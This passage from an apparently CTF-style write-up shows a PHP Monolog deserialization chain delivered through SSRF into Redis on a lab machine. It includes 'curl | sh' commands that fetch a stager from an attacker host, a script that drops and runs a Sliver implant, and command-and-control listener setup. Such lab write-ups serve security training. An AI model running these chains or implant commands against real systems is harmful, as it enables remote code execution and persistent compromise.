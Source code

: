 We started with **Monolog/RCE1** because Monolog 2 appeared to be supported. We created a gadget chain to trigger a call to `system` with the command `sleep 5` to cause a five second response delay for detection purposes.

~~~zsh
# use -a/--ascii-strings to escape unprintable bytes
serial=$(phpggc "Monolog/RCE1" "system" "sleep 5" -a)

# Create valid JSON request body
data=$(echo {} | jq --arg k "$redis_key" --arg v "$serial" \
  '.url="http://redis:6379"|.method="'"MSET \"+\$k+\" '\"+\$v+\"'\"")

# Write session to redis via SSRF
curl $webhooks_api/webhooks/$uuid -H 'Content-Type: application/json' -d "$data"
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

We once again requested [/home](http://cybermonday.htb/home) under the corresponding session and noticed a response time of just over five seconds. This was a solid indication that our command was executed, so we created another payload to download and execute a [Sliver](https://github.com/BishopFox/sliver) implant.

~~~zsh
# Generate payload that will fetch a stager script
stage="https://$lhost/TdsJnG"
serial=$(phpggc "Monolog/RCE1" "system" "curl -k $stage|sh" -a)
data=$(echo {} | jq --arg k "$redis_key" --arg v "$serial" \
  '.url="http://redis:6379"|.method="'"MSET \"+\$k+\" '\"+\$v+\"'\"")

# Write to session once again
curl $webhooks_api/webhooks/$uuid -H 'Content-Type: application/json' -d "$data"
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

Before we triggered deserialization again we created a stage script, generated an implant, started an HTTPS listener to host the both files, and initialized the mTLS Command & Control channel.

~~~sh
cat << EOF > stage.sh
of=\$(mktemp /tmp/Nu5I4j.XXXXXX)
curl -k https://$lhost/BuhPQk -o \$of
sh -c "chmod +x \$of;\$of &"
EOF
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~sh
mtls -L 10.10.14.2 -l 8443
generate -o linux -m 10.10.14.2:8443 -l -G -s implant.elf
websites add-content -w cybermonday -c implant.elf -p /BuhPQk
websites add-content -w cybermonday -c stage.sh -p /TdsJnG
https -L 10.10.14.2 -l 443 -w cybermonday
~~~
{:file="bryan@redteam ➤ sliver-client" .nolineno}

After repeating the request to trigger deserialization, we successfully establish an implant Session!
